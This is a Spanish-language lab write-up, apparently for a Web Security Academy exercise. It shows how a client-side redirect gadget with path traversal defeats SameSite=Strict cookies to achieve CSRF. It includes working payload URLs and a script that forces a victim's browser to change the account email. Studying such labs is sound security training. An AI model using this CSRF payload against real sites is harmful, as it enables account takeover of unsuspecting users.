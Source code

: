 Si se configura una cookie con el `SameSite=Strict`atributo, los navegadores no la incluirán en ninguna solicitud entre sitios. Es posible que pueda evitar esta limitación si encuentra un gadget que genere una solicitud secundaria dentro del mismo sitio.

Un posible gadget es una redirección del lado del cliente que construye dinámicamente el objetivo de la redirección utilizando información controlable por el atacante, como parámetros de URL. 

En lo que respecta a los navegadores, estas redirecciones del lado del cliente no son realmente redirecciones; la solicitud resultante se trata como una solicitud normal e independiente. Y lo que es más importante, se trata de una petición al mismo sitio y, como tal, incluirá todas las cookies relacionadas con el sitio, independientemente de las restricciones que existan.

Si puedes manipular este gadget para provocar una petición secundaria maliciosa, esto puede permitirte eludir completamente cualquier restricción de cookies SameSite.

Tenga en cuenta que el ataque equivalente no es posible con redirecciones del lado del servidor. En este caso, los navegadores reconocen que la petición de seguir la redirección resultó de una petición cross-site inicialmente, por lo que todavía aplican las restricciones de cookies apropiadas.

## LAB

![20250714001042.png](20250714001042.png)

En el perfil del usuario tendremos un apartado para actualizar el email del usuario

![20250714001352.png](20250714001352.png)

Además, podemos observar que el valor de `SameSite` es de `Strict`, por lo que explotar un CSRF no será fácil.

![20250714001450.png](20250714001450.png)

Investigando un poco en sitio web encontramos que al hacer un comentario, este hace una redirección al post que se comentó.

![20250714004030.png](20250714004030.png)

![20250714004133.png](20250714004133.png)

Haciendo unas pruebas y agregar `/../../my-account` este me redirige a `my-account` por lo que usaremos esto para mandar nuestra petición de cambio email

```html
https://0add00b90345a2ca80660d3d006900a9.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account
```

![20250714004549.png](20250714004549.png)

Además, interceptamos la petición y cambiamos el método de `POST` a `GET` y enviamos, en este podemos ver que acepta nuestra petición.

![20250714004621.png](20250714004621.png)

Entonces podemos empezar a construir nuestro POC 

```html
https://0add00b90345a2ca80660d3d006900a9.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account//change-email?email=hacker8%40pwned.net&submit=1
```

Luego de construir el POC probé y no conseguí cambiar el correo, esto debido a que `&` no estaba en urlencode, por lo que lo convertí a `%26` y me quedo el POC final de la siguiente manera:

```html
https://0add00b90345a2ca80660d3d006900a9.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account//change-email?email=hacker8%40pwned.net%26submit=1
```

Este si funciono, por lo que termine de construir el POC de la siguiente manera:

```html
<script>
          document.location = "https://0add00b90345a2ca80660d3d006900a9.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40user.net%26submit=1";
      document.forms[0].submit();
</script>
```

Guarde el exploit y haga clic en "Deliver to victim" para resolver el laboratorio.
